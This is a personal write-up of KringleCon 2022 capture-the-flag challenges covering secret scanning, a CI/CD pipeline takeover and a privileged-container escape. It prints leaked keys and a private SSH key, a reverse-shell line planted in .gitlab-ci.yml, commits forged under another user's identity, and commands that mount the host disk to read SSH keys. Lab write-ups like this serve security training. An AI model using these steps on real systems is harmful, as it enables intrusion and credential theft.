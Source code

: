 ```yaml
---
layout: kringlecon2022
title: "Elfen Ring"
author: "Andrew Cherney"
date: 2023-01-15 19:52:13
tags: 
- kringlecon 
- ci/cd 
- sandbox-escape
---
```

## Clone with a Difference
***
___
Use Trufflehog to find secrets in a Git repo. Work with Jill Underpole in the Cloud Ring for hints. What's the name of the file that has AWS credentials?

***

easy challenge
install trufflehog
scan https://haugfactory.com/orcadmin/aws_scripts

`git clone https://github.com/trufflesecurity/trufflehog.git`

`cd trufflehog; go install`

`trufflehog git https://haugfactory.com/orcadmin/aws_scripts`

___





## Jolly CI/CD
***
___
find misconfigurations and vulnerabilites in the CI/CD pipeline

***

[CI/CD Attack Steps](https://www.paloaltonetworks.com/blog/2021/10/anatomy-ci-cd-pipeline-attack/)

we start off dropped into a container and needing to make an escape of some sorts. Looking at the output of `df -HaT` we can see `/dev/root` is mounted at multiple locations. Dead end

talking to Tinsel Upatree we get a link to a repo `http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git`

start by cloning that git
`git clone http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git`

looks like a wordpress shop backend
database seems to be using some defaults

DB_NAME: wordpress
DB_USER: example username
DB_PASS: example password
DB_HOST: mysql

WORDPRESS_ENV: `http://wordpress.flag.net.internal:8080`

check `git log` and see whoops, update gitlab-ci.yml, and update wp-config

`'WORDPRESS_AUTH_KEY':'828baa18284a5a7bfd11a00b872370c8ed403f3b'
'WORDPRESS_SECURE_AUTH_KEY':'642534c3a9a10dde9d2837e1a3c940af3dca0893'
'WORDPRESS_LOGGED_IN_KEY':'2752181bd2e986d32448bd55beb4ac6c49a709f4'
'WORDPRESS_NONCE_KEY':'5bf27de94d31f288ae971b76b2281329c2bbdfee'
'WORDPRESS_AUTH_SALT':'fdc0ba7e8bf25d7197f4367f8fb81eb9ee79f5e8'
'WORDPRESS_SECURE_AUTH_SALT';'760c60029c3867ea1f27011896c3dc5316d895cd'
'WORDPRESS_LOGGED_IN_SALT';'aa193eca87378d51d6e574fceb5120c92cd1349c'
'WORDPRESS_NONCE_SALT':'debed84d451729b0c0b316661ff8caf40875514a'`

private key in whoops

`-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4gAAAJiQFTn3kBU5
9wAAAAtzc2gtZWQyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4g
AAAEBL0qH+iiHi9Khw6QtD6+DHwFwYc50cwR0HjNsfOVXOcv7AsdI7HOvk4piOcwLZfDot
PqBj2tDq9NBdTUkbZBriAAAAFHNwb3J4QGtyaW5nbGVjb24uY29tAQ==
-----END OPENSSH PRIVATE KEY-----`

authorized keys too

`ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP7AsdI7HOvk4piOcwLZfDotPqBj2tDq9NBdTUkbZBri sporx@kringlecon.com`

re-clone the repo with this new ssh key after adding it to .ssh (turns out I can use something i looked up later in the process to properly reclone the repo with the ssh key)

`nano .ssh/id_rsa`
`GIT_SSH_COMMAND="ssh -i /home/samways/.ssh/id_rsa" git clone ssh://git@gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git`

with the private ssh key likely we can make changes to the repo itself. With this info I can upload scripts to be run through the `.gitlab-ci.yml` file in the git repo. 

add this reverse shell to the script.
`    - sh -i >& /dev/tcp/172.18.0.99/7222 0>&1`

here i among used and pretended to be sporx, among us

`git add .gitlab-ci.yml`
`git config --global user.email "sporx@kringlecon.com"`
`git config --global user.name "sporx"`
`git commit -m 'reverse shell'`

Now I need to push this commit to the main branch. If I try to do that now it will ask for a password and username, the first of which I do not have. I found reference to GIT_SSH_COMMAND, which can be used to push the commit to main with my ssh key without a password or username. 

`GIT_SSH_COMMAND="ssh -i /home/samways/.ssh/id_rsa" git push origin main`


if we remember the gitlab yml file we changed there was an ssh as root for the wordpress flag net where the ssh key is in a gitlab-runner machine, which is the one we just got a shell into. lets try to run that. 

`ssh -i /etc/gitlab-runner/hhc22-wordpress-deploy root@wordpress.flag.net.internal`

oI40zIuCcN8c3MhKgQjOMN8lfYtVqcKT

___




## Prison Escape
***
___
escape the container

***

using `ls /dev` we can see that we are in a privileged container and in this list there might be the host disk. vda is a strong contender for a host disk so I mount the disk in a new directory and look inside.
`mkdir /tmp/freedom`
`sudo mount /dev/vda /tmp/freedom`
then the challenge is to find the keys which probably means ssh keys
`cat /tmp/freedom/home/jailer/.ssh/*`
then we grab that key and escape

___












